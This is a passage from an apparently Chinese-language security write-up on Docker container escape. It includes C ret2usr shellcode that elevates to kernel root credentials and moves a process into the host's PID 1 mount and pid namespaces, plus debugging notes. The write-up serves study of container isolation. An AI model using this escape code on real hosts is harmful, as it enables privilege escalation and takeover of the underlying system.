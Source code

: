 该方法可以让Docker进程能够以host的root权限任意读写host文件系统，但是无法kill进程，如下图：

 ![](/attachments/2024-05-15-docker-pid-namespace/62998bd5-0e9d-4ea1-8d4a-fbedbe282f45.png)

因为只替换了文件系统，并未改变任何namespace。

### 4.2 改cap+ns v1.0

上一种方法仅达成了读写host文件系统的能力，而Docker中的进程其namespace还在Docker中，不算是完美的逃逸，于是紧接着出现了第二种可以逃逸namespace的方法。

这个方法也是基于关闭SMEP的前提条件下，ret2usr执行提权和切namespace的操作。主要思路是：

* `commit_creds(prepare_kernel_cred(0))`提权 —— 改了进程的capability
* `switch_task_namespaces()` —— 替换Docker中pid为1进程的namespace
* `setns()` —— 将当前进程加入到`/proc` 目录下pid为1进程的namespace中

ret2usr后利用代码片段：

```c
static ssize_t sw_ns_set_ns(void){
    size_t(*find_task_by_vpid)(int) = 0xFFFFFFFF810E6500;  // 需要几个关键函数/数据的地址
    size_t g = (*find_task_by_vpid)(1);
    
    size_t init_nsproxy = 0xFFFFFFFF82E8B000;
    size_t(*switch_task_ns)(size_t, size_t) = 0xFFFFFFFF810EECB0;
    (*switch_task_ns)(g, init_nsproxy); 
    
    size_t(*sys_open_)(size_t, size_t, int, int) = 0xFFFFFFFF81389980; 
    size_t(*sys_setns_)(size_t, size_t) = 0xFFFFFFFF810EEF60;
    
    int fd1 = (*sys_open_)(AT_FDCWD, "/proc/1/ns/mnt", O_RDONLY, 0);
    (*sys_setns_)(fd1, 0);
    
    int fd2 = (*sys_open_)(AT_FDCWD, "/proc/1/ns/pid", O_RDONLY, 0);
    (*sys_setns_)(fd2, 0);
    
    return 0;
}

void shellcode(){
    commit_creds(prepare_kernel_cred(0));
    sw_ns_set_ns();
}
```

这里有两个小插曲：

1. 在无法关闭SMEP的情况下，这段shellcode能否直接在内核中执行？

   如果在内核中以shellcode形式执行该代码，会在执行open()时返回错误码-14（EFAULT）。通过调试定位到错误产生的代码位置在 `do_sys_open() -> do_sys_openat2() -> getname() -> getname_flags() -> strncpy_from_user()` 函数中：

    ![](/attachments/2024-05-15-docker-pid-namespace/595dddf8-fa83-478e-9cc6-09acde951696.png)

   所以，在内核中使用shellcode做以上利用逻辑时，需将sys_open()的第二个字符串参数设置为用户态地址。
